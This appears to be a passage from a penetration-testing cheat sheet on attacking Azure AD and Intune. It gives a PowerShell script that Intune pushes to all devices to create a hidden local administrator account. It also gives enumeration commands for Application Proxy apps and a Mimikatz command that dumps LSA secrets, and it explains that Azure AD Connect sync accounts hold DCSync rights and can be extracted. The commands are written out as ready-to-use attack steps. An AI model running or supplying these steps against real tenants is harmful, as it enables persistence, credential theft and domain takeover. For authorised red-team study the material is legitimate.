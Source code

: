 ## Intune
- a user with Global Administrator or Intune Administrator role can execute PowerShell scripts on an enrolled Windows device. The script runs with privileges of SYSTEM on the device.
- If user had Intune Administrator role go to https://endpoint.microsoft.com/#home and login (or from a ticket (PRT)
- Go to Devices -> All Devices to check devices enrolled to Intune:
- Go to Scripts and Click on Add for Windows 10. Create a new script and select a script
- Example script adduser.ps1

```
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
New-LocalUser -Name <USERNAME> -Password $passwd
Add-LocalGroupMember -Group Administrators -Member <USERNAME>
```

- Select `Run script in 64 bit PowerShell Host`
- On the assignment page select "Add all users" and "add all devices"

## Application proxy abuse
- The application behind the proxy may have vulnerabilities to access the on-prem environment.
#### Enumerate application which has a application proxy configured
```
Import-Module .\AzureAD.psd1
Get-AzureADApplication | %{try{Get-AzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}}
```

#### Get the Service Principal (use the application name)
```
Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "<APPLICATION NAME>"} 
```

#### Find user and groups assigned to the application
```
. .\Get-ApplicationProxyAssignedUsersAndGroups.ps1
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT ID OF SERVICE PRINCIPAL>
```

#### Extract secrets of service account
- After compromising the application
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

# On-Prem --> Azure AD
- https://aadinternals.com/post/on-prem_admin/

## Azure AD Connect
- When Azure AD Connect is configured. The `SYNC_` account and `MSOL_` account are created. (or `AAD_` if installed on a DC)
- The `SYNC_` account has the role `Directory Synchronization Accounts` and can reset any password within the cloud and the `MSOL_` and `AAD_` account have DCSync rights.
- The role is now shown in the Azure portal [Documentation](https://learn.microsoft.com/en-us/azure/active-directory/roles/permissions-reference#roles-not-shown-in-the-portal)
- Passwords for both the accounts are stored in SQL server on the server where Azure AD Connect is installed and it is possible to extract them in clear-text if you have admin privileges on the server.
- A lot of the attacks uses https://github.com/Gerenios/AADInternals
